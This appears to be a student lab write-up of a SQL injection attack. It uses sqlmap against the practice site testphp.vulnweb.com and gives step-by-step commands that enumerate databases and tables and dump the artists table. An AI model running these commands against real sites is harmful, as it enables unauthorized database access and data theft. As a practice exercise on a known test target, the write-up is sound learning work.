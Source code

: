 Step 1:

Get their database name through surviellience by using the command
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
I used this URL for test.php.vulnweb.com website and found a vulnerablity 
information_schema and acuart are the database names
Step 2:
Then I accessed the information schema database to get table names inside it. using this command
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D information_schema --tables
Step 3:
I dump all the content of on the of the authorization tables to complete my attack using the command
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D information_schema -T ADMINISTRABLE_ROLE_AUTHORIZATIONS -dump
However, i found that this table was empty so I went to acuart database and then dumped the artists table
using the following commands
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T artists -dump

